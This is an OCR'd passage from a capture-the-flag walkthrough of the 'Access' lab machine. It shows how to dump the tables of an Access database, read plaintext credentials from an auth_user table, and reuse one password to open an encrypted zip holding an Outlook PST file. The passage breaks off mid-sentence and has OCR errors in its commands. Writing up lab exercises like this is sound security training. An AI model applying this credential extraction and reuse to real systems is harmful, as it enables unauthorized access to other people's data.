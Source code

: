 ┌─\[rin@parrot\]─\[~\]

└──╼ $sudo apt install mdbtools

Create a directory called tables and move backup.mdb into it then run:

for I in $\(mdb-tables backup.mdb\);do mdb-export backup.mdb $i &gt; $i;done

This script will get each table name and then export the contents of the table, saving it to a file named using the table name. Most of the tables are empty and you can sort the files by line count using:

wc -l \* \| sort -n

On looking at the files with more than 2 lines, you will notice a table called auth\_user:

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Access/tables\]

└──╼ $cat auth\_user

id,username,password,Status,last\_login,RoleID,Remark

25,"admin","admin",1,"08/23/18 21:11:47",26,

27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,

28,"backup\_admin","admin",1,"08/23/18 21:14:02",26,

The first thing to try is the engineer password on the zip file:

┌─\[rin@parrot\]─\[~/boxes/Access/access.htb/Engineer\]

└──╼ $7z x 'Access Control.zip'

7-Zip \[64\] 16.02 : Copyright I 1999-2016 Igor Pavlov : 2016-05-21

p7zip Version 16.02 \(locale=en\_AU.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs IntelI CoreI i9-9980HK CPU @ 2.40GHz \(906ED\),ASM,AES-NI\)

Scanning the drive for archives:

1 file, 10870 bytes \(11 KiB\)

Extracting archive: Access Control.zip

--

Path = Access Control.zip

Type = zip

Physical Size = 10870

Enter password \(will not be echoed\):

Everything is Ok

Size: 271360

Compressed: 10870

The pst file is a Microsoft Outlook email file that can be read using the program "readpst". Running this on "Access Control.pst" will extract an mbox file. With cat, the contents reveal an email that is in the "Deleted Items" folder. This email is from john@megacorp.com to security@accesscontrolsystems.com saying that:
